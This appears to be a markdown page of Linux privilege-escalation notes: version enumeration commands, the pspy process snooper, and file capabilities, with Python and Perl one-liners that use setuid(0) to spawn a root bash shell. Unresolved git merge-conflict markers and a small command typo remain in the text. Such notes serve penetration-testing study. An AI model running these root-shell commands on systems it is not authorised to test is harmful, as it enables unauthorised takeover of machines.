 ### Linux version

##### Distribution 
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release
##### Kernel Version
at /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-

### Linux Process

1. pspy
[pspy](https://github.com/DominicBreuker/pspy#how-it-works) is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. 
It heavily uses the [inotify API](https://man7.org/linux/man-pages/man7/inotify.7.html) provides a mechanism for monitoring filesystem events.
Inotify can be used to monitor individual files, or to monitor directories.


### Linux Capabilities 
1. getcap
The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:
- ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
- ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'


<<<<<<< HEAD
###### *If you don't know, now you know: [Capabilities](https://linux.die.net/man/7/capabilities)*
=======
*If you don't know, now you know : [Capabilities](https://linux.die.net/man/7/capabilities)*
>>>>>>> 0005fd72b988749ff1b7a16d8bcfa705cf347fb3

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs

<<<<<<< HEAD
##### source:
=======
#####source:
>>>>>>> 0005fd72b988749ff1b7a16d8bcfa705cf347fb3

https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

<<<<<<< HEAD
##### Temp
=======
#####Temp
>>>>>>> 0005fd72b988749ff1b7a16d8bcfa705cf347fb3

ip addr

-> docker0